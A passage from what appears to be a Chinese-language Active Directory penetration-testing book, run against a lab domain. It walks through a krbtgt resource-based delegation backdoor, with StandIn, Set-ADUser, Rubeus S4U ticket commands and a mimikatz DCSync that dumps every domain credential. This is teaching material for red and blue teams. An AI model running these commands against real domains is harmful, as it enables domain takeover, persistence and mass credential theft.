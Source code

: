 图 7.20 – 成功设置所需的用户属性

最后，我们将像在*第五章*中一样滥用受限委派。

从防御角度来看，必须监视此类用户权限以及 GPO 的更改。最终的后门技术也将依赖委派，但这次是在 krbtgt 账户上的 RBCD。

### krbtgt 上的委派

这种技术的理念是滥用 krbtgt 账户上的 RBCD。借助内置的域管理员组权限，攻击者可以设置 krbtgt 账户的`msDS-AllowedToActOnBehalfOfOtherIdentity`属性。对于`Protected Users`组的成员和启用了`Account is sensitive and cannot be delegated`标志的账户，这个技巧不起作用。攻击者将通过创建或使用现有计算机账户来设置后门，并借助 AD 模块配置 krbtgt 账户的`msDS-AllowedToActOnBehalfOfOtherIdentity`属性：

```
StandIn_v13_Net45.exe --computer legit --make
Set-ADUser krbtgt -PrincipalsAllowedToDelegateToAccount legit$ -Verbose
Get-ADUser krbtgt -Properties PrincipalsAllowedToDelegateToAccount
```

前述命令的结果可以在以下截图中看到：

![图 7.21 – 成功设置 krbtgt 的 msDS-AllowedToActOnBehalfOfOtherIdentity 属性](img/B18964_07_21.jpg)

图 7.21 – 成功设置 krbtgt 的 msDS-AllowedToActOnBehalfOfOtherIdentity 属性

要作为低权限用户利用后门，攻击者请求 krbtgt 服务的服务票据，并执行 DCSync 攻击，步骤如下：

```
Rubeus.exe hash /password:QMgbL9WpzfRgSrr
Rubeus.exe s4u /nowrap /impersonateuser:Administrator /msdsspn:krbtgt /domain:sevenkingdoms.local /user:legit$ /rc4:56E24C7AD8CCD68A1868CBFFA14B7CD1
Rubeus.exe asktgs /service:"ldap/kingslanding.sevenkingdoms.local" /ptt /ticket:"from_s4u_base64"
mimikatz.exe "lsadump::dcsync /csv /all" "exit"
```

前述命令执行的结果如下截图所示：
